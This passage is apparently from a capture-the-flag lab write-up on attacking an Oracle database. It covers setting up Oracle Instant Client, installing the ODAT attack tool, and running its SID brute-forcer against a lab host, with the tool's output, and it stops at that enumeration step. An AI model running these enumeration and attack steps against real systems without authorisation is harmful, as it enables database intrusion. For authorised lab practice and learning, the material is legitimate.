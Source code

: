         <div>

            alias sqlplus='/opt/oracle/instantclient_12_2/sqlplus'
            export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/didier:/usr/local/go/bin’
            export SQLPATH=/opt/oracle/instantclient_12_2
            export TNS_ADMIN=/opt/oracle/instantclient_12_2
            export LD_LIBRARY_PATH=/opt/oracle/instantclient_12_2
            export ORACLE_HOME=/opt/oracle/instantclient_12_2

        </div>

        </div>

-   Oracle Database Attacking Tool (ODAT)
    -   download release from github:
        https://github.com/quentinhardy/odat/releases/
    -   unzip in `/opt`
    -   added line to `~/.bashrc`:
        `alias odat='export LD_LIBRARY_PATH=/opt/odat-libc2.5-i686/; cd /opt/odat-libc2.5-i686/; ./odat-libc2.5-i686; cd -'`
    -   There are detailed instructions on the github readme.

-   metasploit

    -   use this walkthrough: https://blog.zsec.uk/msforacle/

### Attack Methodology:

[This Blackhat
presentation](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
is a good walkthrough of the steps necessary to exploit an Oracle db.

#### 1 - Identify database

Already done in nmap.

#### 2 - Identify SIDs

We really only need one valid SID, which we can get with `odat` or
`metasploit`.

##### odat

Using `odat`, found two SIDs with `sidguesser`:



    root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82

    [1] (10.10.10.82:1521): Searching valid SIDs
    [1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
    [+] 'XE' is a valid SID. Continue...
    [+] 'XEXDB' is a valid SID. Continue...
    100% |#####################################################################################################################################################| Time: 00:03:49
    [1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
    100% |#####################################################################################################################################################| Time: 00:00:09
    [1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
    [+] 'XE' is a valid SID. Continue...
    100% |#####################################################################################################################################################| Time: 00:03:20
    [+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
